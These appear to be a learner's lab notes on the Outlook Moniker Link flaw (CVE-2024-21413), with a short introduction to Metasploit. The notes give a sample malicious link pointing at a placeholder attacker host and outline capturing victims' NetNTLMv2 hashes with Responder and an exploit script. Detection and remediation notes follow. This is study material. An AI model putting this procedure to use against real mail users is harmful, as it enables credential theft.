 # Moniker Link (CVE-2024-21413)

- Outlook is Microsoft’s email client. If you receive an email with a file:// link to a remote share, Outlook normally blocks automatic access with Protected View. But if the link contains an exclamation mark e.g., [file://attacker/test!x], Outlook may still cause your PC to contact the remote host — your machine “knocks” and sends an NTLMv2 authentication hash even if the file doesn’t exist. That hash can be captured and abused by an attacker.

- A moniker link is a special kind of Windows identifier (a “name”) that tells Windows to look up and instantiate a Component Object Model (COM) object or resource — sometimes using a string that looks like a URL  --> example  [file://attacker/test!x]

- MIME stands for Multipurpose Internet Mail Extensions.

- Its like envelope , all html , attachments like images and links can be carried in this MIME

## EXPLOITATION 

- For exploiting this , i created a mail with  [file://attacker_ip/test!/] and after this i send it to victim

- Then i enabled `responder -I ens5 ` which listen on SMB where -I is interface

- Then run the exploit -->  ` python3 exploit.py ` 

- Finally a mail will be sent to victim and whem he click it , we can listen / capture his hash ie netNTLMv2

## DETECTION 

- YARA is created to detect moniker links --> file ://

- On WIRESHARK we can see SMB request sent by the attacker to client !  

## REMEDIATION

- Altho microsoft has fixed this issue, its still a reminder for us to not click the unknown links and be safe !

----------------------------------------------------------------------------------------------------------------------------------------------------------------------

# INTRODUCTION TO METASPLOITABLE 


## INTRODUCTION 

- Metasploit Framework is a set of tools that allow information gathering, scanning, exploitation, exploit development, post-exploitation ETC.

- msfconsole: The main command-line interface.
-  Modules are small components within the Metasploit framework that are built to perform a specific task, such as exploiting a vulnerability, scanning a target, or performing a brute-force attack
- Tools: Stand-alone tools that will help vulnerability research, vulnerability assessment, or penetration testing
